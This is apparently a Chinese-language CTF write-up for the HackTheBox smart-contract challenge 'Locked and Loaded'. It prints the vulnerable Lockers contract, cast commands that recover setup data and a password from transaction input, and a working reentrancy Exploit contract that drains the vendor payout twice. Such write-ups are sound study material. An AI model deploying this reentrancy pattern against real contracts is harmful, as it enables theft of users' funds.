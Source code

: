 ```yaml
---
title: HTB Blockchain Challenge - Locked and Loaded
date: {{ date }}
cover   : "/img/htb4.jpeg"
tags: Blockchain SmartContract Exploit
---
```



### Lockers.sol
* 先上程式
```solidity=
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Lockers {
    enum Rarity {
        Common,
        Rare,
        Epic,
        Mythic
    }

    struct Item {
        string name;
        string owner;
        Rarity rarity;
    }

    mapping(string => string) private users;
    mapping(string => address) private usernameToWallet;
    mapping(Rarity => uint256) public price;
    Item[] private items;

    constructor(
        string[] memory _users,
        string[] memory _passwords,
        string[] memory _itemNames,
        string[] memory _itemOwners,
        uint8[] memory _itemRarities
    ) payable {
        require(_users.length == _passwords.length);
        require((_itemNames.length == _itemOwners.length) && (_itemOwners.length == _itemRarities.length));

        for (uint256 i; i < _users.length;) {
            users[_users[i]] = _passwords[i];
            unchecked {
                ++i;
            }
        }

        for (uint256 i; i < _itemNames.length;) {
            items.push(Item(_itemNames[i], _itemOwners[i], Rarity(_itemRarities[i])));
            unchecked {
                ++i;
            }
        }

        price[Rarity.Common] = 1;
        price[Rarity.Rare] = 10;
        price[Rarity.Epic] = 100;
        price[Rarity.Mythic] = 1000000000000000000;
    }

    function putItem(string calldata name, string calldata owner, uint8 rarity) external {
        require(rarity < 3);
        items.push(Item(name, owner, Rarity(rarity)));
    }

    function viewItems(string calldata _name) external view returns (string memory, Rarity) {
        for (uint256 i = 0; i < items.length; ++i) {
            if (_strEquals(_name, items[i].name)) {
                return (items[i].owner, items[i].rarity);
            }
        }
        revert("NoSuchItem");
    }

    function retrieveItem(string calldata name, string calldata password) external {
        for (uint256 i = 0; i < items.length; ++i) {
            if (_strEquals(name, items[i].name)) {
                require(_strEquals(password, users[items[i].owner]), "Authentication Failed");
                delete items[i];
                break;
            }
        }
    }

    function transferItem(string calldata name, string calldata to, string calldata password) external {
        for (uint256 i = 0; i < items.length; ++i) {
            if (_strEquals(name, items[i].name)) {
                require(_strEquals(password, users[items[i].owner]), "Authentication Failed");
                items[i].owner = to;
                break;
            }
        }
    }

    function sellItem(string calldata name, string calldata password) external {
        uint256 index;
        Item memory _item;
        string memory prevOwner;

        for (uint256 i = 0; i < items.length; ++i) {
            if (_strEquals(name, items[i].name)) {
                require(_strEquals(password, users[items[i].owner]), "Authentication Failed");
                _item = items[i];
                prevOwner = items[i].owner;
                index = i;
            }
        }

        require(bytes(_item.name).length > 0, "Item does not exist");

        _item.owner = "Vendor";

        (bool success,) = usernameToWallet[prevOwner].call{value: price[_item.rarity]}("");
        require(success);
        delete items[index];
    }

    function getLocker(string calldata username, string calldata password) external {
        require(bytes(users[username]).length == 0, "User already exists");
        require(!_strEquals(username, "Vendor"), "Only the true vendor can use this name!");
        users[username] = password;
        usernameToWallet[username] = msg.sender;
    }

    function _strEquals(string calldata _first, string memory _second) private pure returns (bool) {
        return keccak256(abi.encode(_first)) == keccak256(abi.encode(_second));
    }
}


```


### 分析
* 這題可以知道透過外部傳參的方式把資料傳進來
* 我們可以直接去找 tx 來取得當初設定的資料
* ` cast block --rpc-url http://188.166.175.58:32088/rpc 1`
* ` cast tx --rpc-url http://188.166.175.58:32088/rpc {tx_hash}`
* `cast call --rpc-url http://188.166.175.58:32088/rpc --private-key {{private key}} 0x5E0117F535D516a0DF81960890005AA012d43124 "viewItems(string)" "{Item.name}"`
* 工人智慧解析一下之後可以得到以下資訊



| Item.name | Item.rarity | Item.owner |
| -------- | -------- | -------- |
| PumkinFace | 2 | perfectlyremnant|
| RabbitArmor | 1| forestrepeat|
| StrangeCarrot | 1 | quizincomplete|
| BigBoots | 0 | mittensshade |
|BiometricScepter | 2 | callunthinking|
|CorruptedSword | 0 | perfectlyremnant|
|WizardsScepter | 3 | beliefspace|
|CommonDagger | 0 | dovesswimming|
|UncommonKaskol | 1 |fabulouspufferfish|
|BigBottle | 2 | writerafter|


* 目標是透過 WizardsScepter 觸發 Re-entrancy Attack兩次把前提光
* 代表我們要註冊beliefspace的wallet
* 又或者是想辦法新增一個user並轉移至自己身上
* 有 transferItem 這個function
* 因此思路就是
    * getLocker新增一個user指向合約
    * transferItem將Item.owner指向自己
    * 呼叫sell並且進入合約的Fallback function
    * 提款完成後退出
* 先找密碼
* 在TX input data 可以找到有一堆奇怪的東西
![image](https://hackmd.io/_uploads/r1EmULhO6.png)

* `(` 為 40
* 後面剛好緊接著40個字元
* 可以猜測這是密碼
    * 密碼跟帳號是有順序性的
    * 倒數第六個
    * yVEF3bka7UK5ho8#EYTuReCyaPO2CHr.0oVF5I8? 

### Exploit
```solidity=
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Setup} from "./Setup.sol";
import {Lockers} from "./Lockers.sol";

contract Exploit{
    Setup setup;
    Lockers lockers;
    bool withdraw;
    constructor(Setup _setup){
        setup = _setup;
        lockers = setup.TARGET();
    }
    receive() external payable {
        if(!withdraw){
            withdraw = true;
            sell();
        }
    }
    function sell() public {
        lockers.sellItem("WizardsScepter", "XXX");
    }
    function transfer() public {
        lockers.transferItem("WizardsScepter", "prlab", "ss4#Nq7nNyKMfZ=XESnOzP2hk:SSRCzo2QPk4w~~");
    }
    function newLocker() public {
        lockers.getLocker("prlab", "XXX");
    }
    function exploit() public {
        newLocker();
        transfer();
        sell();
    }
}
```
